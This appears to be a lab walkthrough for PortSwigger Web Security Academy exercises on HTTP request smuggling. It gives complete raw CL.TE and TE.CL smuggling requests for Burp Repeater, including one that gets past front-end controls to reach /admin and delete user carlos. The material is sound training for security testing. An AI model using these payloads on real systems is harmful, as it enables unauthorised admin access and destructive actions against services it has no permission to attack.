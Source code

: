 # Some cases of HTTP request smuggling

## 1. HTTP request smuggling, confirming a CL.TE vulnerability via differential responses

Using Burp Repeater, issue the following request twice:

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```

The second request should receive an HTTP 404 response.

#### Note

Although the lab supports HTTP/2, the intended solution requires techniques that are only possible in HTTP/1. You can manually switch protocols in Burp Repeater from the Request attributes section of the Inspector panel.

## 2. HTTP request smuggling, confirming a TE.CL vulnerability via differential responses

In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked (setting icon near `Send`)

Using Burp Repeater, issue the following request twice:

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

The second request should receive an HTTP 404 response.

#### Note

Although the lab supports HTTP/2, the intended solution requires techniques that are only possible in HTTP/1. You can manually switch protocols in Burp Repeater from the Request attributes section of the Inspector panel.

## 3. Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability

Try to visit /admin and observe that the request is blocked.

Using Burp Repeater, issue the following request twice:

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-Ignore: X
```

Observe that the merged request to /admin was rejected due to not using the header `Host: localhost`.

Issue the following request twice:

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 54
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
X-Ignore: X
```

Observe that the request was blocked due to the second request's Host header conflicting with the smuggled Host header in the first request.

Issue the following request twice so the second request's headers are appended to the smuggled request body instead:

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```

Observe that you can now access the admin panel.

Using the previous response as a reference, change the smuggled request URL to delete carlos:

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 139
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```
